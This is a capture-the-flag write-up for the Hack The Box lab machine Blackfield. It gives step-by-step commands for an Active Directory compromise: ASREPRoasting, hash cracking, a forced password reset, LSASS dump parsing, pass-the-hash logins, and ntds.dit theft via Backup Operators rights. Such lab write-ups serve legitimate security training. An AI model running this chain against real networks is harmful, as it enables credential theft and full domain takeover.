# Blackfield

## Summary

[Blackfield](https://app.hackthebox.com/machines/255) is a <mark style="color:orange;">hard-rated</mark> box that includes common Active Directory attack paths. By **enumerating SMB** we are able to create a username list which we use for an [**ASREPROAST**](../../tl-dr/active-directory/attacks/as-reproasting.md) **attack** that leads on obtaining domain credentials. **Collecting and analyzing domain data** using [BloodHound](../../tl-dr/active-directory/ad-tools/bloodhound.md) results in **lateral movement**, via the `ForceChangePassword` permission, and give us access to a new SMB share. Within that share, a LSASS dump is found which leads to **vertical privilege escalation** by leveraging the `Backup Operators` membership, and **fully compromising the domain**.

<table><thead><tr><th width="85" align="right">Step</th><th>Action</th><th>Tool</th><th>Achieved</th></tr></thead><tbody><tr><td align="right">1</td><td>SMB Enumeration</td><td><a href="../../tl-dr/active-directory/ad-tools/netexec.md">NetExec</a></td><td>Usernames</td></tr><tr><td align="right">2</td><td><a href="../../tl-dr/active-directory/attacks/as-reproasting.md">ASREPRoasting</a></td><td><a href="../../tl-dr/active-directory/ad-tools/netexec.md">NetExec</a></td><td>Domain credentials</td></tr><tr><td align="right">3</td><td>Domain Enumeration</td><td><a href="../../tl-dr/active-directory/ad-tools/bloodhound.md">BloodHound</a></td><td>Elevation of privileges</td></tr><tr><td align="right">4</td><td>SMB Enumeration</td><td><a href="../../tl-dr/active-directory/ad-tools/netexec.md">NetExec</a></td><td>Initial foothold</td></tr><tr><td align="right">5</td><td>Privilege Exploitation</td><td><a href="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow">diskshadow</a>, <a href="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy">robocopy</a></td><td>Data exfiltration</td></tr><tr><td align="right">6</td><td>Data Extraction</td><td><a href="https://github.com/fortra/impacket/blob/master/examples/secretsdump.py">impacket-secretsdump</a></td><td>Domain compromise</td></tr></tbody></table>

## Roasting Accounts

Let's start with an Nmap port scan (Figure 1):

```bash
sudo nmap 10.10.10.192 -T4 -p- -A -open
```

<figure><figcaption><p>Figure 1: Scanning Blackfield's ports.</p></figcaption></figure>

There are some interesting results returned from Nmap:

* The FQDN is `DC01.BLACKFIELD.LOCAL`.
* Based on the hostname (`DC01`) and the fact it has services such as DNS, Kerberos, LDAP, and SMB, we can safely assume that it is a Domain Controller (DC).&#x20;
* WinRM is available on port `5985`.

Before proceed to enumerate the SMB and LDAP services, we should add the hostname, domain name and FQDN on our local DNS file:

```bash
$ grep blackfield /etc/hosts
10.10.10.192    blackfield.local dc01 dc01.blackfield.local
```

Asking the SMB for information related to shares, users and password policy, it comes back with just the shares (Figure 2). There are 2 non-default shares: `forensic` and `profiles$`. We can only `READ` the latter, and spidering it comes back with a long list of usernames (Figure 3).


```bash
# enumerating SMB shares
nxc smb 10.10.10.192 -u 'guest' -p '' --shares
# spidering the profiles$ share
nxc smb 10.10.10.192 -u 'guest' -p '' --spider profiles\$ --regex . --depth 0
```


<figure><figcaption><p>Figure 2: Enumerating SMB shares.</p></figcaption></figure>

<figure><figcaption><p>Figure 3: Spidering the profiles$ share.</p></figcaption></figure>

Let's create a username list based on the information provided from the `profiles$` share:


```bash
# writing nxc's output to a file
nxc smb 10.10.10.192 -u 'guest' -p '' --spider profiles\$ --regex . --depth 0 > nxc_users
# manually remove the junk lines
nano nxc_users
# extract the usernames
cat nxc_users | grep '[dir]' | cut -d'/' -f5 | cut -d' ' -f1 | sort | uniq > domain_users
```


Putting our username list to work right away and checking for any [ASREPRoastable](../../tl-dr/active-directory/attacks/as-reproasting.md) accounts (Figure 4), we get back `support`'s hash, which we pass and crack with [Hashcat](../../tools/passwords/hashcat.md) (Figure 5).


```bash
# asreproasting with netexec
nxc ldap 10.10.10.192 -u domain_users -p '' --asreproast asrep_users --continue-on-success
# cracking the hash with hashcat
hashcat -m18200 asrep_users /usr/share/wordlists/rockyou.txt
# showing the results
hashcat asrep_users --show
```


<figure><figcaption><p>Figure 4: ASREPRoasting with NetExec.</p></figcaption></figure>

<figure><figcaption><p>Figure 5: Cracking the hash with Hashcat.</p></figcaption></figure>

With a valid domain user account we can re-enumerate SMB. Unfortunately, we still cannot `READ` the `forensic` share with the `support` account, but it does let us know that there is no danger of account lockouts (Figure 6). In addition, enumerating domain users returns a long list back, containing many junk accounts which we need to clean and write to a new list (Figure 7).



```bash
# enumerating SMB with valid domain credentials
nxc smb 10.10.10.192 -u support -p support_pass --shares --pass-pol --users
```




```bash
# writing netexec's to a file
nxc smb 10.10.10.192 -u support -p support_pass --users > nxc_users1
# removing the junk lines manually
nano nxc_users1
# extracting usernames
cat nxc_users1 | cut -d'\' -f2 | cut -d' ' -f1 | sort | uniq > domain_users2
```




<figure><figcaption><p>Figure 6: Enumerating share access and domain's password policy.</p></figcaption></figure>

<figure><figcaption><p>Figure 7: Extracting domain usernames.</p></figcaption></figure>

## Connecting Dots

Checking for [Kerberoastable](../../tl-dr/active-directory/attacks/kerberoasting.md) accounts comes back empty-handed, so the next step if to collect all available domain information and pass it to [Bloodhound](../../tl-dr/active-directory/ad-tools/bloodhound.md) (Figure 8).


```bash
bloodhound-python -u support -p $(cat support_pass) -dc dc01.blackfield.local -c all -d BLACKFIELD.LOCAL -ns 10.10.10.192
```


<figure><figcaption><p>Figure 8: Collecting domain information with the Bloodhound-Python ingestor.</p></figcaption></figure>

Seaching for the compromised account `support` we can see right away that it has the rights to change the password of the user `audit2020` (Figure 9). Compromising `audit2020`'s password leads to having `READ` access to the `forensic` SMB share (Figure 10).&#x20;

<figure><figcaption><p>Figure 9: The support account has ForceChangePassword rights over the audit2020 account.</p></figcaption></figure>


```bash
# changing audit2020's password
net rpc password 'audit2020' 'Password123!' -U "blackfield.local/support%#00^BlackKnight" -S dc01.blackfield.local
# writing audit2020's to a file
echo 'Password123!' > audit2020_pass
# enumerating share access
nxc smb 10.10.10.192 -u audit2020 -p audit2020_pass --shares
```



We can also change the user's password using [`rpcclient`](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/).


<figure><figcaption><p>Figure 10: Compromising the audit2020 account and gaining access to the forensic share.</p></figcaption></figure>

## Extracting Data

The `forensic` share contains multiple directories, but one of the stands out: `memory_analysis`. Within that folder we can find an LSASS dump which we can download to our host (Figure 11).


```bash
# spidering the memory_analysis folder within the forensic share
nxc smb 10.10.10.192 -u audit2020 -p audit2020_pass --spider forensic --spider-folder memory_analysis --regex . --depth 1
# downloading the lsass.zip file
nxc smb 10.10.10.192 -u audit2020 -p audit2020_pass --share forensic --get-file memory_analysis/lsass.zip lsass.zip
```


<figure><figcaption><p>Figure 11: Spidering the memory_analysis folder and downloading the lsass.zip file.</p></figcaption></figure>

Next, we can unzip the file and use [`pypykatz`](https://github.com/skelsec/pypykatz) to extract the data from the LSASS dump. Reading through the data we can find the NT hashes for the `administrator` and `svc_backup` accounts (Figure 12).

```bash
# unzip the lsass dump
$ unzip lsass.zip
# extract the lsass.DMP data and write it to a file
$ pypykatz lsa minidump lsass.DMP > lsass_dump
# finding useful data
cat lsass_dump | grep "Username: svc_backup" -A3
```

<figure><figcaption><p>Figure 12: Unzipping and extracting the data from the LSASS dump.</p></figcaption></figure>

The `Administrator`'s hash is not valid, but the one for the `svc_backup` account is ✅ ! By quering its group memberships we can see that it is part of the `Remote Management Users`, which means that we can log into the box via WinRM, and the [`Backup Operators`](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators) group (Figure 13). The latter group, as explained [here](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/), can be leveraged for dumping the `ntds.dit` database which typically leads to fully compromising the domain.

```bash
nxc ldap 10.10.10.192 -u svc_backup -H svcbackup_hash -M whoami -o USER=svc_backup
```

<figure><figcaption><p>Figure 13: Quering LDAP for svc_backup group memberships.</p></figcaption></figure>

Let's first jump into the box and read `user.txt` 🚩 (Figure 14).

```bash
# logging into the box using WinRM
evil-winrm -i 10.10.10.192 -u svc_backup -H $(cat svcbackup_hash)
# reading the user flag
type ..\desktop\user.txt
```

<figure><figcaption><p>FigureFigure 14: Using svc_backup's hash to log into the box via WinRM. </p></figcaption></figure>

## Exfiltrating Victory

Next, we can follow the steps listed [here](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/), under the _Exploiting Privilege on Domain Controller (Method 1)_ section, and compromise the `ntds.dit` database by:

1. Writing a small script for the [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to expose the `c:` drive
2. Converting the script in a Windows-compatible format
3. Moving to a directory with write access
4. Uploading the script on the target
5. Exposing the shadow copy
6. Copying `ntds.dit` to the working directory
7. Copying the `system.hive` to the working directory
8. Downloading the `ntds.dit` and `system.hive` files



```bash
# creating a diskshadow script
nano diskshadow_script
# listing its content
cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:
# convert file into a Windows-compatible format
$ sudo unix2dos diskshadow_script
unix2dos: converting file diskshadow_script to DOS format...
```



```powershell
# move within a writeable directory
cd c:\windows\temp
# upload the diskshadow script
upload diskshadow_script
# expose the shadow copy
diskshadow /s diskshadow_script
# copy the ntds.dit database
robocopy /b z:\windows\ntds . ntds.dit
# copy the system.hive file
reg save hklm\system c:\windows\temp\system.hive
# download both files
download ntds.dit
download system.hive
```



Finally, we can dump the `Administrator`'s hash and use it to snatch `root.txt` 🚩(Figure 15).


```bash
# dump the ntds.dit data and extract the administrator's hash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
# compromise the root.txt file
nxc smb 10.10.10.192 -u administrator -H admin_hash -x 'type c:\users\administrator\desktop\root.txt'
```


<figure><figcaption><p>Figure 15: Dumping the ntds.dit data and snatching the root.txt flag!</p></figcaption></figure>

## Resources










